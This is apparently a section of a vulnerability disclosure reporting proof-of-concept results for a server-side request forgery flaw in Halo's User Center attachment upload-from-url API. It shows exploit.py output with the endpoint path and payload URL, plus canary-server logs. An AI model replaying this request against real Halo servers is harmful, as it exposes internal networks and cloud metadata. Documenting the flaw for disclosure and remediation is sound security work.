 
## 💥 Proof of Concept Results

### Successful Exploitation

```bash
$ python3 exploit.py http://localhost:8090 --username halo --password 'Pa$$W0rd!'

🔐 Authenticating to Halo User Center...
✅ RSA public key extracted successfully
✅ Password encrypted with RSA  
✅ CSRF token obtained
✅ Login successful! Redirected to: /uc

🎯 Testing upload SSRF via User Center API...
🎯 POST /apis/uc.api.storage.halo.run/v1alpha1/attachments/-/upload-from-url
🎯 Payload: url=http://host.docker.internal:42187/upload-ssrf-test

🚨 SSRF VULNERABILITY CONFIRMED!
✅ Server made outbound HTTP request to attacker-controlled URL
✅ DefaultAttachmentService.uploadFromUrl() method exploited successfully  
✅ User Center API vulnerable (not admin-only!)
🔥 Impact: Internal network access, cloud metadata exposure, data exfiltration
🔑 Auth required: Content Creator privileges (Post Author role)

VULNERABILITY STATUS: CONFIRMED EXPLOITABLE
CWE-918: Server-Side Request Forgery
CVSS: 6.5 Medium  
Root cause: No URL validation in uploadFromUrl() method
```

### Technical Evidence

**Canary Server Hits:**
```
🎯 CANARY HIT: GET /upload-ssrf-test
   From: 127.0.0.1:48932
   Headers: {'user-agent': 'ReactorNetty/1.2.8', 'host': 'host.docker.internal:42187', 'accept': 'application/octet-stream'}

📊 HTTP Response: 200 OK  
📄 Server Response: {"spec":{"displayName":"ssrf-test.txt","policyName":"default-policy",...}}
📁 File Storage: Content downloaded and stored as attachment in Halo database
```

**Key Technical Observations:**
- **HTTP Method:** GET request (matches `uploadFromUrl()` implementation)
- **User Agent:** `ReactorNetty/1.2.8` (confirms Spring WebFlux WebClient usage)
- **Source IP:** `127.0.0.1` (proves requests originate from Halo server)
- **Content Processing:** Successfully downloads and stores arbitrary content
- **Response Success:** 200 OK with attachment metadata confirms full processing

---
